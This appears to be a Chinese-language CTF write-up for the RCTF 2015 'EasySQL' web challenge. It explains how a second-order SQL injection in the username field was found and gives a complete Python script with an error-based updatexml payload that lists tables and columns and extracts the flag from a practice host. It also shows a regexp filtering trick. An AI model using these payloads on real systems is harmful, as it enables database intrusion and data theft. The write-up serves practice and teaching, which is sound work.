 # RCTF 2015

## 0x01 EasySQL

进入发现可以注册，先注册一个看看

注册的时候有点奇怪，邮箱的``@``不能出现。。。。

登进去看到一批文章，根据url考虑是否有sql注入，fuzz了半天没东西

点用户名的时候发现，可以改密码，考虑是不是存在二次注入。

然后。。。看了大佬的wp,发现是用户名存在二次注入

如果用户名为``eki"\`` 会看到更改用户名处有sql报错信息

注入点找到了，为了自动化，写个脚本

```python
import requests

url = "http://326c9944-4f75-4893-911b-9c517bdc9c5a.node3.buuoj.cn/"

r = requests.session()

def register(name):
    data = {
        'username' : name,
        'password' : '123',
        'email' : '123',
    }
    r.post(url=url+"register.php", data=data)

def login(name):
    data = {
        'username' : name,
        'password' : '123',
    }
    r.post(url=url+"login.php", data=data)

def changepwd():
    data = {
        'oldpass' : '',
        'newpass' : '',
    }
    req = r.post(url=url+"changepwd.php", data=data).text
    print(req)

#sql="select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())"
#Result:'article,flag,users'
#sql="select(group_concat(column_name))from(information_schema.columns)where(table_name='users')"
#sql="select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')"
sql="select(reverse(group_concat(real_flag_1s_here)))from(users)where(real_flag_1s_here)regexp('^f')"

payload='eki"||updatexml(1,concat(1,({0})),1)#'.format(sql)

register(payload)
login(payload)
changepwd()
```

这样看师傅的wp发现一个技巧，因为正常字段里前面存着很多垃圾字段，可以用sql的正则表达式来搞，匹配一下开头的``f``

用法
``<sqli>where(<targetname>)regexp(<regexpress>)``
